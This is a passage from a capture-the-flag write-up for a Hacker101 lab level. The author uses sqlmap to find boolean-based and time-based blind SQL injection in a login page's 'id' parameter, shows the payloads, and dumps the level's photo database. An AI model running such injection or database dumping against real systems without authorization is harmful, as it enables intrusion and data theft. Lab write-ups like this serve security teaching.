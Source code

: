 Passing `"2"` also returns a similar output, but passing something like `"100"` returns not found.

I'm convinced that we can exploit this somehow, so let's turn to `sqlmap` to try all sorts of techniques for us.

## SQL Injection

```sh
$ sqlmap -u https://<subdomain>.ctf.hacker101.com/login?id=1 -p "id" --dump
...
[18:23:58] [INFO] GET parameter 'id' appears to be 'MySQL >= 5.0.12 OR time-based blind (SLEEP)' injectable 
...
GET parameter 'id' is vulnerable. Do you want to keep testing the others (if any)? [y/N] N
sqlmap identified the following injection point(s) with a total of 312 HTTP(s) requests:
---
Parameter: id (GET)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: id=1 AND 9950=9950

    Type: time-based blind
    Title: MySQL >= 5.0.12 OR time-based blind (SLEEP)
    Payload: id=1 OR SLEEP(5)
---
[18:26:52] [INFO] the back-end DBMS is MySQL
```

And this allows us to dump the database:

```
Database: level5
Table: albums
[1 entry]
+----+---------+
| id | title   |
+----+---------+
| 1  | Kittens |
+----+---------+

Table: photos
[3 entries]
+----+------------------+--------+------------------------------------------------------------------+
| id | title            | parent | filename                                                         |
+----+------------------+--------+------------------------------------------------------------------+
| 1  | Utterly adorable | 1      | files/adorable.jpg                                               |
| 2  | Purrfect         | 1      | files/purrfect.jpg                                               |
| 3  | Invisible        | 1      | <weird value that looks like a hash> |
+----+------------------+--------+------------------------------------------------------------------+
```
